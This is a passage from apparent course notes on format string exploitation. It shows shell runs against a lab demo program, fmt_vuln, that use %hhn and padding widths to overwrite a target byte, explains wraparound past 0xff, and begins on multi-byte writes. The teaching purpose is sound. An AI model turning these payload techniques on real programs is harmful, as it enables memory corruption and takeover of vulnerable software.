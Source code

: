 Great! But, there is still one problem here. You may have noticed that,
the first value we wrote to that byte was 0x22. What if we want to write
a value less than 0x22? It would seem that we can only add to the format
length, not decrease.

Turns out, we are still in the clear because of overflows. See what
happens when I set the format length such that we format more than 256
bytes.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#0228x.%hhn
Right: /.%#08x.%#08x.%#0228x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004.

[*] test_val @ 0x804a02c = -29277887 0xfe414141
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#0229x.%hhn
Right: /.%#08x.%#08x.%#0229x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004.

[*] test_val @ 0x804a02c = -12500671 0xff414141
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#0230x.%hhn
Right: /.%#08x.%#08x.%#0230x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004.

[*] test_val @ 0x804a02c = 4276545 0x00414141
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#0231x.%hhn
Right: /.%#08x.%#08x.%#0231x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004.

[*] test_val @ 0x804a02c = 21053761 0x01414141
```

As we tick over for 0xff, we wrap back around to 0x00 then 0x01 and so
on. Now we can full control what we write, and to where.

Writting multiple bytes
-----------------------

The final test is getting to write multiple bytes. Our goal is to write
0xdeabeef over the target. We are actually almost there. The first thing
we need to do is to write 0xbe to the byte we were messing with before.
